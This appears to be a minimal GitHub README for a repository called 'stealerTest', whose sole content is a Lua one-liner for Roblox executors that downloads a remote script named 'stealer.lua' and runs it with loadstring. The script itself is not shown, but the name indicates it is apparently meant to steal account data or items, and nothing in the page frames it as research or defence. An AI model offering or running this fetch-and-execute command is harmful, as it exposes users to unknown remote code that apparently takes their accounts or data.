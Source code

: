 # stealerTest

script: loadstring(game:HttpGet("https://raw.githubusercontent.com/zedikik/stealerTest/refs/heads/main/stealer.lua", true))()
